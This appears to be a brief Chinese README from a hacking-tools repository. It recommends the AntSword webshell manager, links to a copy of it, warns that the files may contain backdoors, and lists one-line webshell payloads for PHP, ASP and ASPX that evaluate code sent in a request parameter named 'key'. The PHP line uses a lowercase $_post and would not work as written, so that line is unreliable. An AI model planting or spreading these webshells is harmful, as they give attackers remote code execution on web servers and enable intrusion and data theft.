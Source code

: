 # 说明

不保证无后门，资源来源于百度。推荐使用AntSword！！！

https://github.com/TTL-Team/TTL-Tools/tree/main/Web/Shell/AntSword

php一句话木马：<?php @eval($_post['key']);?>

asp一句话木马：<%eval request['key']%>

aspx一句话木马：<%@ page language="jscript"%><%eval(request.item["key"],"unsafe");%>